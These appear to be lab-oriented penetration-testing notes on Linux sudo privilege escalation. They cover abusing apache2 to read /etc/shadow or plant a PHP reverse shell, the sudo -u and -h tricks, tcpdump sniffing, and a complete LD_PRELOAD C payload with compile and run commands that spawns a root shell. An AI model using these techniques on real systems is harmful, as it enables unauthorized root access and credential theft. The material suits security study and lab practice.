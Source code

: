 # Leverage application functions
## Apache2 Server
###### Method 1
```sh
sudo -l

User can run the following commands as root
	sudo (NOPASSWD): /usr/bin/apache2
```

As you can see below, Apache2 has an *option that supports loading alternative configuration files* (`-f`).
![[Pasted image 20230520114651.png]]
Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.


###### Method 2
```sh
ls -al /etc/apache2

-rwxrwxrwx  1 root root  7094 NOV 7  2023 apache2.conf

# Also, you should be able to restart the apache2 server, either by default or through Sudo

sudo -l
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/systemctl start apache2
    (ALL) NOPASSWD: /bin/systemctl stop apache2
    (ALL) NOPASSWD: /bin/systemctl restart apache2
```

1. First modify `apache2.conf` file to change the web user with new one.
```sh
## /etc/apache2/apache2.conf
# These need to be set in /etc/apache2/envvars
User [username]
Group [username]

## Setting it to "root" user might not work so try other users
```

2. In the web directory (e.g. /var/www/html), create the script `rev-shell.php` to reverse shell.
3. Restart Apache2 server
4. Start `nc` & visit /rev-shell.php to get shell as a new user!



## Nginx
https://0xdf.gitlab.io/2023/11/09/htb-broker.html#shell-as-root

---
## Leverage Other users
```sh
aaryan11x@htb[/htb]$ sudo -l

    (user : user) NOPASSWD: /bin/echo
```

The **NOPASSWD** entry shows that the `/bin/echo` command can be executed without a password. This would be useful if we gained access to the server through a vulnerability and did not have the user's password. As it says user, we can run `sudo` as *that user and not as root*. To do so, we can specify the user with `-u` user:

```sh
aaryan11x@htb[/htb]$ sudo -u user /bin/echo Hello World!

    Hello World!
```


## Leverage Other Host
![[Pasted image 20231101215206.png]]

```sh
sudo -h ssalg-gnikool /bin/bash -p
```


---
# Leverage LD_PRELOAD
**LD_PRELOAD** is an *environment variable* in Linux systems that allows you to *load and run your own shared libraries before the standard system libraries are loaded*. In simpler terms, it gives you the ability to *override or intercept function calls made by programs and replace them with your own custom functions*.

For More Info, [Go Here](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)

The steps of this privilege escalation vector can be summarized as follows;

1.  **Check for LD_PRELOAD (with the env_keep option)**
Run `sudo -l`
![[Pasted image 20230520121643.png]]

2.  **Write a simple C code compiled as a share object (.so extension) file**

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
// Save this in shell.c
```

3.  **Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file**

```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![[Pasted image 20230520122007.png]]

```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so [command with sudo priviliges]
# Ex: sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

This will result in a *shell spawn* with ***root privileges***.

---
# Shutdown command Priv Esc
```sh
sudo -l

(ALL) NOPASS: /usr/sbin/shutdown
```

1) Try https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-shutdown-poweroff-privilege-escalation/
2) If not working, search for a process that executes during startup using [[pspy]] or `linpeas.sh`

---
# Vulnerable Version (1.8.21, 1.8.31, 1.8.27)
https://github.com/blasty/CVE-2021-31561

---
# tcpdump
```sh
# View network traffic with tcpdump if you have the permissions (-A for ASCII)
sudo tcpdump -i lo -A

# Sniff UDP packets & show it's contents
tcpdump -i ens192 -SX udp

# Sniff UDP packet on port 169
tcpdump -i ens192 -SX udp port 169
```
